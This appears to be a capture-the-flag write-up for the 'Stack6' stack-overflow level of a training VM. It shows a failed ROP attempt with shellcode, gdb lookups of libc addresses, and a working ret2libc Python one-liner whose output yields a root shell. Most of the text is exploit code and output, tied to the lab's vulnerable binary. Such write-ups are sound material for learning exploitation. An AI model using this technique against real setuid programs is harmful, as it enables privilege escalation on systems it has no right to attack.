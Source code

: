 **Stack6**

The check in getpath() checks first made me try ROP.

ROP:
```diff
python -c "from struct import pack; print 'a'*72 + 'bbbb' + pack('<I', 0xbffffe38) + pack('<I', 0x08048505) + 'bbbb'*3 + pack('<I', 0xbffffe38 + 8) + shellcode" | ./stack6
```


The following code worked only in gdb because gdb puts it's environment variables in a different place.
After a lot of head-scratching I switched to ret2libc.

Addresses of libc functions:
```diff
$ gdb stack6
$ b main
$ r
$ p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
$ p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Now we have system's address to execute /bin/sh and exit to exit without any annoying errors.
How do we load /bin/sh into our exploit?
environment variables.
The c code env_addr.c prints out the addresses outside of gdb.

ret2libc:
```diff
$ export SHELLCODE=/bin/sh
$ /tmp/env_addr SHELLCODE
Estimated address: 0xbffff985
$ (python -c "from struct import pack; print 'a'*80 + pack('<I', 0xb7ecffb0) + pack('<I', 0xb7ec60c0) + pack('<I', 0xbffff985 + 9)"; cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����aaaaaaaaaaaa�����`췎���
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)

```

Payload:

Jumping to system + Address of exit (for clean exit) + Address of the shellcode variable as the argument for system.